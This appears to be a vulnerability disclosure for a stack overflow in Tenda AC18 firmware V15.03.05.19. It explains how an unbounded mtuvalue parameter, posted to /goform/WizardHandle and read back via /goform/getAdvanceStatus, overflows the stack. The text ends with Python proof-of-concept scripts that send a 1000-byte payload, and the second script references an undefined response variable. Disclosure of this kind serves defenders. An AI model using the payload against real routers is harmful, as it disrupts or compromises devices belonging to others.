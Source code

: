## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/WizardHandle` url. The `v37` variable receives the `mtuvalue` parameter from a POST request and is stored in the configuration item named``wan1.dynamicMTU` through the SetValue function.In order to execute this case branch, the value of WANT needs to be set to 0. In order to parse %d as 1, it is also necessary to set the value of the `WANS` parameter to 1.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_170749.png)

`wan1.dynamicMTU`  configuration item can  be retrieved through the GetValue function in the `/goform/getAdvanceStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_171604.png)

In order to execute this case branch, The `v26` variable needs to be set to 0.So, in the `/goform/WizardHandle` URL, the value of the `WANT` parameter needs to be set to 0.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_171954.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WizardHandle"
payload = "a"*1000

data = {"WANT": "0","WANS":"1","mtuvalue":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getAdvanceStatus"

print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
